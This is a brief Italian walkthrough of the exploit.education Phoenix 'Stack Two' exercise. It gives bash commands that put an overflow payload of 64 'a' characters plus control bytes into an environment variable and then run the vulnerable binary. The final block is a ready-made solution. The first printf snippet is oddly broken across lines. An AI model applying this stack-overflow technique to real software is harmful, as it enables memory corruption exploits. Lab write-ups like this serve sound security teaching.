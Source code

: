 # [Stack Two](https://exploit.education/phoenix/stack-two/)

Il valore desiderato richiede caratteri non stampabili.

Da `bash`:

1. Si usa `printf` per trasformare le escape sequence nei caratteri desiderati:
	```bash
	printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
	aaaaaaaaaaaaaaaaaaaaaaaaaaa\n\t\n\r'
	```

2. Si usa la command substitution per scrivere i caratteri desiderati nel comando:
	```bash
	echo $(printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n\t\n\r')
	```

3. Si usa il comando `export` per impostare la variabile d'ambiente al valore desiderato:
	```bash
	export ExploitEducation=$(printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n\t\n\r')
	```

4. Si esegue il programma da exploitare.

## Soluzione

```bash
export ExploitEducation=$(printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n\t\n\r')
./stack-two
```
